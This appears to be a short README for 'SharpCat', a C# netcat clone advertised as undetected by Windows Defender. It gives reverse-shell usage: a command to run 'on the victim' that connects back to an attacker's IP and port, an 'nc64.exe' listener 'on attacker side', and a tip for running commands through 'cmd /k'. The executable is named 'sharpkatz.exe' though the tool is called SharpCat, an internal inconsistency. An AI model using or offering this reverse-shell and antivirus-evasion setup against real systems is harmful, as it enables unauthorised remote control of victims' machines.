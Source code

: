# SharpCat

This is a netcat implementation in C#.
This is not detected by Defender.

```bash
# execute on the victim
./sharpkatz.exe 192.168.1.1 8080

# on attacker side
nc64.exe -l -p 8080
```


### Tips

```bash
# dir will not work
 dir
>>> The system cannot find the file specified

cmd /k dir
>>> works
```